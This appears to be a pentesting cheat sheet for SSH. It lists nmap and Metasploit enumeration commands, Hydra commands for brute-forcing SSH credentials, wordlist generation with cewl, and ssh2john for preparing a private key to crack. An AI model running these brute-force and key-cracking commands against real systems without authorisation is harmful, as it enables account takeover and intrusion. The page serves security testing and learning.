 ```yaml
---
title: SSH (Secure Shell) Pentesting
description: SSH is a cryptographic network protocol for operating network services securely over an unsecured network. A default port is 22.
tags:
    - Cryptography
    - Network
    - Privilege Escalation
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2023-07-19
draft: false
---
```


## Enumeration

```sh
nmap --script ssh-brute -p 22 <target-ip>
nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
nmap --script ssh-* -p 22 <target-ip>

# User enumeration
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers
```

### Brute Force Credentials

```sh
# -t: tasks
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# Specific ports
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4
```

If the target host opens port 80 or 443, you can generate wordlist from the contents of the website then use Hydra.

```sh
cewl http://<target-ip> > wordlist.txt
```

### Crack SSH Private Key

First of all, you need to format the private key to make John to recognize it.

```sh
ssh2john private_key.txt > hash.txt
# or
python2 /usr/share/john/ssh2john.py private_key.txt > hash.txt
```
